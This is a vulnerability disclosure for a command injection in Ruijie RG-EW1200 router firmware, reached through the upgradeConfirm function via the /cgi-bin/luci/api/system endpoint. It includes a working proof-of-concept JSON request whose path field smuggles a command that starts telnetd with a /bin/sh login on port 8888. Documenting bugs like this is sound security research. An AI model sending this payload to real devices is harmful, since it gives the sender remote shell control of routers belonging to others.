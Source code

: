 # Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com "https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    RG-EW1200 Wireless Routers

**Affected firmware version:**    EW_3.0(1)B11P204 (the latest release version, 2023.1.18)

**Firmware download address:**    [https://www.ruijienetworks.com/support/documents/slide_77459](https://www.ruijienetworks.com/support/documents/slide_77459 "https://www.ruijienetworks.com/support/documents/slide_77459")

# Overview

`Ruijie Networks RG-EW1200 Wireless Routers EW_3.0(1)B11P204` was discovered to contain a `command injection vulnerability` via the `params.path` parameter in the `upgradeConfirm` function of `system.lua`. Successful exploit could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

## Vulnerability point

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/system.lua`.**

In the `upgradeConfirm` function of `/usr/lib/lua/luci/modules/system.lua`. When `params.isEstAll` is empty, the parameter `params.path` is directly spliced through the format string `%q` into the variable `_shell` without checking and execute as a parameter of `forkExec`.

![](./pic/4.png)

Therefore, an attacker can inject arbitrary commands into `params.path` to gain control of the remote devices.

## Call flow

In the file `/usr/lib/lua/luci/controller/eweb/api.lua`, we can see `system.lua` corresponding `API` is `/system`.

![](./pic/1.png)

![](./pic/2.png)

Therefore, `system.lua` can be accessed via URL `/cgi-bin/luci/api/system`, and the request body can be posted as `json`.

In the `handle` function of `/usr/lib/lua/luci/utils/jsonrpc.lua`, use the `resolve` function to find the relevant function in `system.lua` corresponding to the `method` field of the `POST` request body. Then it calls `copcall` through `proxy` to run the function, and use the contents of `params` field as its parameter.

![](./pic/3.png)

# Poc

Send the following as a `POST` request to the URL `/cgi-bin/luci/api/system`. 

```
{
        "method": "upgradeConfirm",
        "params": {
            "isPersist": "aaaa"
            "path": "`telnetd -p 8888 -l /bin/sh`"
        }
}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`. From the echo information, we can judge that the command injection is successful.

![](./pic/5.png)

At this point, we use the injection command `telnetd -p 8888 -l /bin/sh` to open the corresponding `telnet` port `8888`, and directly start the shell.

The attacker can log in to the remote device directly through `telnet` and control it entirely.

![](./pic/6.png)
